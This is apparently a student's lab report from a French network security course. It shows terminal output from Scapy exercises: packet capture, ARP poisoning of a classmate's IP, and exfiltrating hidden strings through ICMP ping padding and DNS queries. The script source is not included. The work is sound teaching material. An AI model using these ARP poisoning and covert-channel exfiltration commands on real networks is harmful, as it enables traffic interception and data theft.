


# TP4 SECU : Exfiltration

# Sommaire

- [TP4 SECU : Exfiltration](#tp4-secu--exfiltration)
- [Sommaire](#sommaire)
- [I. Getting started Scapy](#i-getting-started-scapy)
- [II. ARP Poisoning](#ii-arp-poisoning)
- [II. Exfiltration ICMP](#ii-exfiltration-icmp)
- [III. Exfiltration DNS](#iii-exfiltration-dns)

# I. Getting started Scapy

🌞 **`ping.py`**

J'ai ping le pc d'Alan car on ne peut pas ping la passerelle d'Ynov :x

```
PS C:\Users\maxfe\TP_Reseaux_B2> python.exe .\ping.py
Begin emission:
Finished sending 1 packets.
.*
Received 2 packets, got 1 answers, remaining 0 packets
Pong reçu : QueryAnswer(query=<Ether  dst=98:3b:8f:b4:db:38 src=84:14:4D:10:5E:AF type=IPv4 |<IP  frag=0 proto=icmp src=10.33.76.218 dst=10.33.77.246 |<ICMP  type=echo-request |>>>, answer=<Ether  dst=84:14:4d:10:5e:af src=98:3b:8f:b4:db:38 type=IPv4 |<IP  version=4 ihl=5 tos=0x0 len=28 id=32774 flags= frag=0 ttl=64 proto=icmp chksum=0x4bc9 src=10.33.77.246 dst=10.33.76.218 |<ICMP  type=echo-reply code=0 chksum=0x0 id=0x0 seq=0x0 |>>>)
```

🌞 **`tcp_cap.py`**

```
PS C:\Users\maxfe\TP_Reseaux_B2> python.exe .\tcp_cap.py
TCP SYN ACK reçu !
- Adresse IP src : 10.33.76.218
- Adresse IP dst : 162.159.133.234
- Port TCP src : 12283
- Port TCP dst : 443
```

🌞 **`dns_cap.py`**

```
fmaxance@ZeyKiiPC:~$ dig ynov.com

; <<>> DiG 9.18.19-1~deb12u1-Debian <<>> ynov.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 47655
;; flags: qr rd ra; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 512
;; QUESTION SECTION:
;ynov.com.                      IN      A

;; ANSWER SECTION:
ynov.com.               300     IN      A       104.26.10.233
ynov.com.               300     IN      A       172.67.74.226
ynov.com.               300     IN      A       104.26.11.233

;; Query time: 23 msec
;; SERVER: 8.8.8.8#53(8.8.8.8) (UDP)
;; WHEN: Tue Nov 28 09:31:12 CET 2023
;; MSG SIZE  rcvd: 85
```

```
fmaxance@ZeyKiiPC:~/Repo/TP_Reseaux_B2$ sudo python3 dns_cap.py
104.26.10.233
```

🌞 **`dns_lookup.py`**

```
fmaxance@ZeyKiiPC:~/Repo/TP_Reseaux_B2$ sudo python3 dns_lookup.py 
Ether / IP / UDP / DNS Ans "104.26.10.233"
```

# II. ARP Poisoning

🌞 **`arp_poisoning.py`**

```
fmaxance@ZeyKiiPC:~/Repo/TP_Reseaux_B2$ sudo python3 arp_poisoning.py
Enter the victims ip: 10.33.74.177
.
Sent 1 packets.
```

# II. Exfiltration ICMP

🌞 **`icmp_exf_send.py`**

```
fmaxance@ZeyKiiPC:~/Repo/TP_Reseaux_B2$ sudo python3 icmp_exf_send.py 10.1.1.1 j
.
Sent 1 packets.
Payload 'j' envoyé avec succès à 10.1.1.1.
```



🌞 **`icmp_exf_receive.py`**

Depuis le pc de doniban :

```
python3 icmp_exf_send.py 10.33.73.20 meow
```

Sur mon pc:

```
fmaxance@ZeyKiiPC:~/Repo/TP_Reseaux_B2$ sudo python3 icmp_exf_receive.py
Sniffing en cours...
Caractère caché: meow
```

⭐ **Bonus 1 easy :**

- **`icmp_exf_send_b1.py`** et **`icmp_exf_receive_b1.py`**
- parce que là, bon envoyer "j" ça sert à rien
- faites en sorte que ça fonctionne peu importe la longueur de la string passée en argument du script `icmp_exf_send_b1.py`
  - bah oui le padding il a une taille limitée...
  - quelle taille ? [See une bonne doc](https://www.freesoft.org/CIE/Course/Section3/7.htm)
  - il va falloir donc couper la string en plusieurs morceaux, et envoyer plusieurs pings !
- le programme qui reçoit `icmp_exf_receive_b1.py` doit reconstruire le message à partir de tous les pings qu'il reçoit
  - **il affiche toujours uniquement la string cachée**, rien d'autre
- on doit donc pouvoir faire des trucs comme :

```bash
# envoie une string cachée dans un ping vers 10.1.1.1
$ python icmp_exf_send_nolimit.py 10.1.1.1 "Coucou toi comment ça va broooooo"
```

⭐ **Bonus 2 hard : `icmp_exf_send_anything.py`**

- **`icmp_exf_send_b2.py`** et **`icmp_exf_receive_b2.py`**
- envoyez un fichier avec des ping
- faites simple pour les tests : créez un fichier de quelque Ko tout au plus (peu importe le format justement, on s'en fout)
- genre une fois que ça marche, on doit pouvoir envoyer des JPEG avec des ping
- c'est la même idée que la string : fragmenter le JPEG en p'tits morceaux, envoyer, reconstituer de l'autre côté

# III. Exfiltration DNS

🌞 **`dns_exfiltration_send.py`**

```
fmaxance@ZeyKiiPC:~/Repo/TP_Reseaux_B2$ sudo python3 dns_exfiltration_send.py 10.1.1.1 toto
Partie 1/1 exfiltrée avec succès vers 10.1.1.1.
```

```
fmaxance@ZeyKiiPC:~/Repo/TP_Reseaux_B2$ sudo python3 dns_exfiltration_send.py 10.1.1.1 totototototototototototo
Partie 1/2 exfiltrée avec succès vers 10.1.1.1.
Partie 2/2 exfiltrée avec succès vers 10.1.1.1.
```



⭐ **Bonus 3 mid : `dns_exfiltration_send.py`**

- en dernier bonus : mettez en place le code qui reçoit votre exfiltration DNS
- il n'affiche que les strings cachées dans les requêtes reçues

